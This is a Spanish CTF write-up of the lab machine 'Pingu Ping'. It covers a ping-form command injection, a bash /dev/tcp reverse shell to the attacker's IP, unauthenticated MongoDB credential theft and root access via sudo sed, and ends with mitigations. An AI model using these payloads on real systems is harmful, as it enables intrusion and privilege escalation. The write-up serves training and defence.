### Información General

| Campo             | Detalle         |
| ----------------- | --------------- |
| Plataforma        | TheHackersLabs  |
| Máquina           | Pingu Ping      |
| IP                | 192.168.241.180 |
| Dificultad        | Facil           |
| Sistema Operativo | Linux (Debian)  |

### Resumen del Ataque

El reconocimiento inicial reveló tres puertos abiertos: SSH (22), Apache (80) y una aplicación Flask/Werkzeug (5000) que ofrecía un "Ping Test". El puerto 80 solo mostraba la página por defecto de Apache, pero `dirsearch` descubrió el directorio `/web/`, con una nota interna dirigida a "Bob" sobre la limpieza automática del sistema. La aplicación de ping del puerto 5000 resultó vulnerable a inyección de comandos a través del campo `ip_address`, permitiendo ejecutar comandos arbitrarios encadenados con `;`. Esto se aprovechó para obtener una reverse shell como el usuario `tester`. Dentro del sistema, un directorio de configuración de MongoDB (`.mongodb/mongosh`) reveló que el servicio corría sin control de acceso, permitiendo listar bases de datos y extraer credenciales en texto plano del usuario `secretote` desde la colección `usuarios`. Con esas credenciales se accedió por SSH como `secretote`, y la escalada final a `root` se logró abusando de un permiso `sudo` mal configurado sobre el binario `sed`, ejecutando comandos mediante la flag `-n` con el flag de ejecución `e`.

### Técnicas Usadas

- Escaneo de puertos con Nmap (`-p-`, `-sС`, `-sV`)
- Fuzzing de directorios con `dirsearch`
- Command Injection en aplicación web Flask (campo `ip_address` sin sanitizar)
- Reverse shell y estabilización de TTY
- Enumeración de bases de datos MongoDB sin autenticación
- Reutilización de credenciales para acceso SSH
- Escalada de privilegios vía GTFOBins (`sudo sed`)

### Desarrollo

#### 1. Escaneo de puertos

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.180
```



### 2. Identificación de servicios y versiones

```
nmap -p 22,80,5000 -sC -sV -oN allport 192.168.241.180
```



Se confirma Apache por defecto en el puerto 80 y una aplicación Flask/Werkzeug ("Ping Test") en el puerto 5000.

```
http://192.168.241.180/
```



### 3. Fuzzing de directorios en el puerto 80

```
dirsearch -u http://192.168.241.180 --exclude-status 403,404,500 -e php,txt,html
```



### 4. Nota interna en /web/

```
http://192.168.241.180/web/
```


Se anota la mención al usuario "Bob" como posible pista para más adelante, aunque finalmente no fue el vector de entrada.

#### 5. Análisis de la aplicación Ping Test (puerto 5000)

```
http://192.168.241.180:5000/
```



Se obtiene un formulario HTML simple con un campo `ip_address` que envía un POST y devuelve la salida de un ping.

### 6. Prueba de funcionamiento normal


```
192.168.241.128
```



Confirmado el comportamiento base, se prueba la inyección de comandos encadenando con `;`.

#### 7. Confirmación de Command Injection

```
192.168.241.128;ls -la
```



La salida del comando `ls -la` confirma la inyección: el campo `ip_address` se concatena directamente en un comando de sistema.

#### 8. Obtención de reverse shell

```
192.168.241.128;bash -c 'exec bash -i &>/dev/tcp/192.168.241.128/1234 <&1'
```



```
nc -lvnp 1234                                         
```

### 9. Estabilización de la TTY

```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
tester@pinguping:~$ whoami
```



### 10. Enumeración de usuarios del sistema

```
tester@pinguping:~$ grep bash /etc/passwd
```



### 11. Comprobación de permisos sudo (sin éxito por falta de contraseña)

```
tester@pinguping:~$ sudo -l
```



### 12. Búsqueda de binarios SUID

```
tester@pinguping:~$ find / -perm -4000 -type f 2>/dev/null
```



Ningún SUID relevante para explotación directa; se descarta esta vía y se retoma la enumeración del home del usuario.

#### 13. Descubrimiento de configuración de MongoDB

```
tester@pinguping:~$ ls -la
```



El directorio oculto `.mongodb` sugiere que el sistema aloja o interactúa con una instancia de MongoDB.

```
tester@pinguping:~/.mongodb$ cd mongosh/
tester@pinguping:~/.mongodb/mongosh$ ls -la
```



### 14. Acceso a MongoDB sin autenticación

```
tester@pinguping:~/.mongodb/mongosh$ mongosh
```



El propio banner de arranque confirma que el control de acceso está deshabilitado.

```
test> show dbs
```



```
secretito> show collections
```



### 15. Extracción de credenciales en texto plano

```
secretito> db.usuarios.findOne()
```



### 16. Acceso SSH como secretote

```
ssh secretote@192.168.241.180
```

```
secretote@pinguping:~$ whoami
```



```
secretote@pinguping:~$ cat user.txt 
753a3e39fde0e31a5e763384d9a1df87 
```



### 17. Escalada de privilegios vía sudo sed

```
secretote@pinguping:~$ sudo -l
```



`sed` con permisos `sudo (ALL:ALL)` permite ejecución de comandos arbitrarios mediante la flag de ejecución del flag `e` en un script `sed`, técnica documentada en GTFOBins.

```
secretote@pinguping:~$ sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

```
/bin/bash
```

```
root@pinguping:/home/secretote# whoami
```



### 18. Flag de root

```
root@pinguping:/home/secretote# cd /root
root@pinguping:~# cat root.txt 
3e3fe08f2c9be56153e6e470199787c5
root@pinguping:~# 
```



### Lecciones Aprendidas

- Un formulario que ejecuta comandos de sistema (como `ping`) sobre un campo de entrada sin sanitizar es una vía directa a Command Injection; siempre hay que probar caracteres de encadenamiento de shell (`;`, `&&`, `|`, backticks) en cualquier input que interactúe con herramientas de red.
- Los servicios de bases de datos (MongoDB, Redis, etc.) escuchando en localhost sin autenticación son un vector recurrente de post-explotación: conviene enumerar siempre puertos internos y directorios de configuración ocultos tras obtener acceso al sistema.
- Reutilizar contraseñas entre una base de datos interna y una cuenta del sistema (SSH) sigue siendo una práctica común en máquinas CTF y en entornos reales; conviene siempre intentar credenciales encontradas contra todos los servicios de autenticación disponibles.
- GTFOBins es una referencia indispensable para evaluar rápidamente el impacto de cualquier permiso `sudo` NOPASSWD sobre binarios "inocuos" como `sed`, `find`, `man`, etc.

### Medidas de Mitigación

- Nunca concatenar entrada de usuario directamente en comandos de shell; usar librerías de ping nativas (p. ej. `ping3` en Python) o listas blancas de validación estricta de direcciones IP.
- Habilitar autenticación y control de acceso en MongoDB (`security.authorization: enabled`) y restringir el binding a interfaces no expuestas fuera de lo necesario.
- No almacenar contraseñas en texto plano en bases de datos; aplicar hashing con sal (bcrypt/argon2).
- Aplicar el principio de mínimo privilegio en la configuración de `sudoers`: evitar otorgar `ALL:ALL` sobre binarios como `sed`, que permiten ejecución arbitraria de comandos; si es imprescindible, restringir a argumentos concretos o usar `sudoedit`.
- Auditar periódicamente los permisos `sudo` de todos los usuarios contra bases de datos como GTFOBins.

